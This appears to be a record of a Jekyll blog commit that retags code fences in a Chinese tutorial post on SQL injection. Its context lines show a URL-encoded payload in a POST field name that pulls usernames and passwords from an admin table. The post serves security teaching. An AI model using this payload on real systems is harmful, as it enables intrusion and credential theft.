

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-29-SQLInjection6.md, in a window 1280 px wide. Shown: the part 595-2504 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
update SQLInjection6.md

````diff
--- a/_posts/2020-11-29-SQLInjection6.md
+++ b/_posts/2020-11-29-SQLInjection6.md
@@ -20,7 +20,7 @@ tags:
 
 有时候可能会在奇奇怪怪的地方可以注入，如post变量名可能出现如下，有点像字典一样的变量：
 
-```http
+```
 POST / HTTP 1.0
 ...
 ...
@@ -30,7 +30,7 @@ fields[truename]=Bob
 
 或者
 
-```http
+```
 POST / HTTP 1.0
 ...
 ...
@@ -48,7 +48,7 @@ fields%5Btruename%5D=Bob
 
 把上面这一段放在fields%5Btruename%5D的%5D前面，也就是如下
 
-```http
+```
 POST / HTTP 1.0
 ...
 ...
@@ -56,7 +56,7 @@ POST / HTTP 1.0
 fields%5Btruename%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23%5D
 ```
 自行解一下码方便看，如下：
-```http
+```
 POST / HTTP 1.0
 ...
 ...
````
